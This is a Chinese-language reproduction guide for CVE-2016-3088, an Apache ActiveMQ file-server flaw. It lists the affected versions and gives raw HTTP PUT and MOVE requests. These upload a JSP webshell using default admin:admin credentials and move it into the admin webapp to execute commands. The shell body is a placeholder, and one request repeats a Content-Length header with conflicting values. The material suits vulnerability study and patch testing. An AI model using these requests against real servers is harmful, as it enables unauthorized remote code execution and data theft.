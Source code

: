 # （CVE-2016-3088）ActiveMQ应用漏洞

## 一、漏洞简介

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![image](images/img2.png)

```html
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=

shell
```

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![image](images/img3.png)

```html
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0

shell
```

![image](images/img4.png)
